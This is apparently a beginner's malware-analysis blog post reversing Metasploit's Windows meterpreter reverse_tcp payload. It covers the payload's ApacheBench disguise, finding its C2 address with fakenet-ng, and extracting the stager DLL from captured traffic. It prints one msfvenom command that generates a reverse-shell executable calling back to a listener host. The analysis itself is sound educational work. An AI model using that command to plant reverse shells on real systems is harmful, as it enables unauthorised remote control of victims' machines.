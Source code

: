 ```yaml
---
title: Reversing Metasploit Payload Part-1
author: malformX
date: 2022-03-05 23:05:00 +0530
categories: [Reversing, Analogy, metasploit]
tags: [RE, metasploit, IDA, Windows]
---
```


## Intro
Hello fellas. This is the first blog that I've ever created. This blog is totally about analyzing how metasploit framework's `reverse_tcp` shell for windows works. For any newbie reader, metasploit-framework is an amazing tool which can be used to do pen-testing. It also ships with `msfvenom` which is capable of generating raw shell-codes, platform specific payloads and reverse shells. I'm not going to talk and give a tutorial about metasploit or about how to hack a computer using metasploit here. For anyone who's interested, **Google is your ally**.

## Context
So, what the hell am i going to talk about then? This blog is totally about my analogy about that particular payload i mentioned. As a CTF player i used this payload a lot. And recently it made me wonder how this thing works. I mean a normal reverse shell can be acquired by simply spawing a cmd/powershell process. But a meterpreter who can also do lateral movement on the target machine? It is a whole different story. So i started seeing what is really happening under the hood. And i thought about archiving my understanding through blogging. This is actually going to be a series. So i'll post my findings as one thing at a time, or maybe two. Okay, maybe three, three at a time.

> I will try to understand and explain this mess deeply as much as possible. But if i failed to include anything here, those things would be mostly available in Google.
>
> {: .prompt-note }

So let's dive in deeper.

## Observation
Let's talk about whatever i noted while using that particular payload. 
First i created the payload using the following command:
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=testserver.dom LPORT=9000 -f exe > shell_dyna.exe`
This will create an exe(executable) file in the current working directory. Then i listened in the msfconsole shell for the connection. But before doing anything we can start by seeing what kind of file it is.

![image-20220227230908269](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220227230908269.png) [^ note1]

We can copy it to our target machine. In my case my Win7 VM which was configured with [flare](https://github.com/mandiant/flare-vm) packages.
By opening the properties of the file we can see that the description tells it is an **ApacheBench command line utility**

![image-20220227231644992](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220227231644992.png)

ApacheBench is a utility used to test the performance of the apache server. This description is sort of a evasion technique and it can evade the unexperienced eyes and avoid suspicion. Now let's see what are the strings embedded in the binary.

![image-20220227233246127](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220227233246127.png)

It got some WinAPI function names. Probably these are the imports of our payload. We'll comeback to this later.

But what's interesting here is there are some strings embedded here which may look legit.

![image-20220227233647799](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220227233647799.png)

These are common strings of a web server. And it even has the string ApacheBench. _Huh! What a legitimate application it is_.
But still there isn't any inclusion of the IP/domain_name/port_numbers which means this thing is obfuscated.
Now let's see how to get the C2 server's IP and what port it is trying to connect.

## Finding the C2 server's IP/Port

For this we can simply use [fakenet-ng](https://github.com/mandiant/flare-fakenet-ng). This tool can sniff all the network requests from applications. Also application's real request won't reach the server and also will save the network traffic to pcapng file which can be analyzed further with Wireshark . So safe from malwares talking to the C2, _yayyy_.

Let's open up the fakent-ng and execute our sneaky malware.
![image-20220227235608131](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220227235608131.png)

That's it we got the IP and Port. But notice it is calling the IP address. But if you noticed [^ note1] here, i specified a domain name. To make it clear i binded the domain name `testserver.dom` to my IP by editing my `/etc/hosts` file. I did that so that i don't have to recreate the payload again and again if i change my network setting. But looks like the domain name is getting resolved to the IP. In fact it isn't possible to bind a non existing domain to the payload.

![image-20220228002242694](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220228002242694.png)

But any IP is possible. Even if it is out of reach.
Also one other thing that i noticed is, the application closes itself if the IP is dead.
Okay now let's see how we can capture the tcp data using wireshark and extract the stager DLL.

## Extracting the Stager

Listen in the meterpreter shell as i mentioned before. 

![image-20220305221334375](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220305221334375.png)

Let's open up our VM and make sure you have the malicious executable. But before running it up we need to make sure the wireshark is running with admin rights.

![image-20220305221531138](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220305221531138.png)

At first we won't see any traffic. Now let's run our exe and come back.

![image-20220305221636591](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220305221636591.png)

After double-clicking on our payload we get a call back from our victim machine. Now go back to wireshark, there'll be a bunch of tcp packets from the port 9000. And that 9000 is the port that was used to bind the payload.

![image-20220305221844135](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220305221844135.png)

We can follow the stream which will result in the whole data stream that was traveled on that session. We can do that by right clicking on the first packet which has the source port of 9000. And choosing `Follow` and then choosing `Tcp Stream` from the subsection there.

![image-20220305222422917](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220305222422917.png)

Once we follow up, we'll get our stager.

![image-20220305222535831](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220305222535831.png)

We can see it is starting with the default PE header which is `MZ` and we also see the message `This program cannot be run in DOS mode.` which is called `DOS-Stub`. These are the magic bytes for all windows executables. 
We can change the `Show data as` option to `raw` from `Ascii` which will include all the bits of binary data, then we can use `Save as` option and save it as raw. Let's save it as stager.dll for now. But when we check the file type it shows the file is just data.

![image-20220305223301698](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220305223301698.png)

The reason for this is, if we noted in the Tcp Stream we can see there is bunch of data pre-pended to our stager. We can verify this by opening it in some hex viewer.

![image-20220305223755018](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220305223755018.png)

 The first 4 bytes are pre-pended here. And it should probably be some kind of session initialization request. And i'll analyze about this in the further blog of this same series. But right now just edit this first 4 bytes and fix our DLL's header. We can open this in any hex editor and remove those 4 bytes.

![image-20220305224106044](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220305224106044.png)

Let's remove it now. 

![image-20220305224141396](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220305224141396.png)

Now we've fixed it. We can save it and let's check the file again.

![image-20220305224245266](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220305224245266.png)

And here we go. We can load it in any disassembler and verify it indeed is our DLL and not some prank by the malware author.

![image-20220305224506199](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220305224506199.png)

Okayyy, we actually see the `DllMain` right here. Which is good for us. Because this means the `main` function isn't obfuscated somewhere sketchy, and we don't have to go dig for it. And also we see a lots of function imports.

![image-20220305224707807](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220305224707807.png)

Good..!! GOOOD..
Now let's execute some command and see the network traffic.

![image-20220305224913019](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220305224913019.png)

And on our analysis machine..

![image-20220305225034911](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220305225034911.png)

Note that i made a filter for showing the packets originating only from my attacker machine. But if you see the data it is encrypted. And it is because the DLL is using encryption on the transmitted data. 

## Conclusion

I just blogged a little fraction of the whole analysis int his post. In the next blog post i'll analyze it more and see what other things it does on the Go. I'll also post things that i forgot (or too lazy) to include here in this post. So let's see sometime later :)
